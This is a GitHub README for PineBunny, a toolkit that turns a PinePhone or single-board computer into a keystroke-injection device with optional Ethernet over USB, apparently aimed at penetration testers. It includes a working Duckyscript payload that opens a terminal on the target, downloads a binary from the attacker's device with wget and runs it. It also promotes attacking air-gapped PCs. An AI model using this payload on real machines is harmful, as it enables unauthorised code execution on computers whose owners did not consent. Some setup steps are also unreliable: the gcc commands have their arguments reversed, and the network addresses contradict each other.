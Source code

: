 # PineBunny

# An attempt to implement something similar to what a Bash Bunny does on the PinePhone (Pro)

This is a recollection of scripts to enable the virtual /dev/hidg0 device on USBGadget enabled kernels and perform keystroke injection attacks emulating a keyboard. This tool is mostly useful in penetration testing assesments and engagements and the ideal devices to use this with would be any kind of Raspberry Pi model/any single board linux computer for that matter, and the PinePhone (Pro) or any other linux phone with a compatible kernel.
Even though those devices are the best ones to use, the tool should work on any device as long as it has USBGadget enabled.


# ¿How to check if my kernel is compatible?

To see if your kernel was compiled with USBGadget enabled, you can typically check the file "/proc/config.gz" to see your current kernel configuration.
Do `gunzip -c /proc/config.gz | grep CONFIG_USB_GADGET=` and check if it ends in `y`. If not you'll have to recompile the kernel yourself and enable it; which is beyond the scope of this repository.


# Installation

To install the scripts clone the repository first and cd into it, and then simply compile usleep and hid-gadget-test:
`gcc -o hid-gadget-test.c hid-gadget-test`
`gcc -o usleep.c usleep`
Then, you can simply remove the .c files and copy the binaries to /usr/bin.
Keep in mind you'll need a different 'badusb' binary for each keyboard layout, so copy the one for your keyboard like so:
`sudo cp badusb-[YOUR_LAYOUT] /usr/bin/badusb`

Only en_US and es_ES are supported right now, I'll work on more layouts when I get the time.


# Usage

The badusb script uses conventional Duckyscript, and its usage is:

`sudo usbarsenal` (you need to enable /dev/hidg0 first, tho usbarsenal also has options for enabling the ecm module of USB Gadget and Mass Storage, so you'll have ethernet over USB, too. Just keep in mind that your target won't get an IP address automatically assigned without a proper dhcp server running. I personally like to use dnsmasq)
`sudo badusb duckypayload.txt`


# Example payload using HID + Ethernet

`usbarsenal` can enable Ethernet over USB, and that can be used for different kinds of attacks. The only thing you have to keep in mind is that you need to manually assign an IP address to the usb0 interface, as well as a netmask and you also need a proper dhcp and dns server (like dnsmasq) so that the target machine gets assigned an IP address automatically.

Let's say we have a file we want the target to download and execute, a file hosted on the PinePhone itself (like `python -m http.server` for example).
We'll need to prepare the usb0 interface and a dhcp server so the computer gets an IP assigned: `sudo usbarsenal`, `sudo ifconfig usb0 up 10.66.0.1 netmask 255.255.255.0`. Then, the dhcp server with this `dnsmasq.conf` configuration:

```
interface=usb0
dhcp-range=10.0.0.2, 10.0.0.30, 255.255.255.0, 12h
dhcp-option=3, 10.0.0.1
dhcp-option=6, 10.0.0.1 
server=8.8.8.8
log-queries
log-dhcp 
listen-address=127.0.0.1
```
`sudo dnsmasq -C dnsmasq.conf -d` We leave that running and we also leave the web server running: `python -m http.server`. Now it should work. Our example payload file looks like this, and it is aimed at a regular linux desktop:

```
DELAY 2000
ALT F2
DELAY 500
STRING xfce4-terminal
ENTER
DELAY 1000
STRING wget http://10.0.0.1:8000/hello
ENTER
DELAY 400
STRING chmod +x ./hello
ENTER
DELAY 100
STRING ./hello
ENTER
```
`sudo badusb payload.txt`

Remember, ethernet over USB can give you physical network access to a computer, which means you could hack an airgapped PC too!
Moreover, you are not forced to use a Duckyscript payload, you could just ignore that and launch a nmap scan physically connected over USB!
The options are endless...
